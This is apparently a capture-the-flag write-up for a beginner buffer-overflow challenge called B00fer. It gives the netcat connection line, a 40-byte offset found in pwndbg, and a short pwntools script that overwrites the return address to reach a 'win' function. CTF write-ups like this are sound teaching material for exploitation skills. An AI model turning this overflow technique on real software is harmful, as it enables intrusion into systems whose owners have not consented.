


### Challenge description

The Consortium sent us this file and connection info. Looks like they are taunting us.

They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.

`nc b00fer.niccgetsspooky.xyz 9001`


### Solution

It's a simple ret2win PWN challenge. There is a win function that contains flag and we simply have to overwrite the return address to jump to that function.

Analyzing in pwndbg, we can overwrite return address after 40 bytes.



Using pwntools to get the flag:

```python
import pwn

# Establish connection
elf = pwn.ELF('./B00fer')
p = elf.process()
#p = remote('b00fer.niccgetsspooky.xyz', 9001)  -- uncomment for remote connection

# win address is static due to no-pie
win_addr = elf.symbols['win']

p.recvline()
# Overwrite return address with win address
p.sendline(b"A"*40 + pwn.p64(win_addr))

p.interactive()
```

